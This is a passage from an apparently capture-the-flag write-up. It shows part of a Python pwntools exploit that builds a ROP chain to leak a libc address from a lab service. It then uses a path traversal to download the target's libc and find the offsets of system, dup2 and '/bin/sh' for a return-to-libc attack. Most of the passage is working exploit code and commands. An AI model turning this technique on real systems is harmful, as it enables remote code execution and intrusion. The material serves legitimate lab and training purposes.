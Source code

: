 ```python
		payload += urlencode(p64(0xb5))            # bs filler

		payload += urlencode(p64(self.pop_rdi))
		payload += urlencode(p64(self.fd))         # fd we want to write to
		payload += urlencode(p64(self.write_plt))	 # function we want to call

		context.log_level = 'warn'

		# keep trying until we receive a response.
		output = ''
		while output == '':
			p = connect(self.ip, self.port)
			p.sendline(self.command + ' ' + payload)
			p.sendline('')

			try:
				p.recvuntil(self.file_not_found, timeout=self.timeout)
				output = p.recv(timeout=self.timeout)
			except:
				log.warning('Leak not found, retrying.')

			p.close()

		context.log_level = 'info'
		return u64(output[:8])

	def run(self):
		log.info('Start leaking address.')
		write_libc = self.__leak(self.write_got)


Exploit('10.10.10.89', 1111).run()
```

Now, we want to use this address to create a return-to-libc attack. And since we have a path traversal on the machine, we use that to download the libc from the machine and extract the needed addresses from it.
```sh
$ wget 10.10.10.89:1111//lib/x86_64-linux-gnu/libc-2.23.so
$ readelf -s libc-2.23.so | grep write
[...]
   169: 00000000000f72b0    90 FUNC    WEAK   DEFAULT   13 __write@@GLIBC_2.2.5
[...]
  2159: 00000000000f72b0    90 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5
$ readelf -s libc-2.23.so | grep system
[...]
   584: 0000000000045390    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
$ readelf -s libc-2.23.so | grep dup2
   592: 00000000000f7970    33 FUNC    GLOBAL DEFAULT   13 __dup2@@GLIBC_2.2.5
   962: 00000000000f7970    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
$ strings -a -t x libc-2.23.so | grep /bin/sh
 18cd57 /bin/sh
```
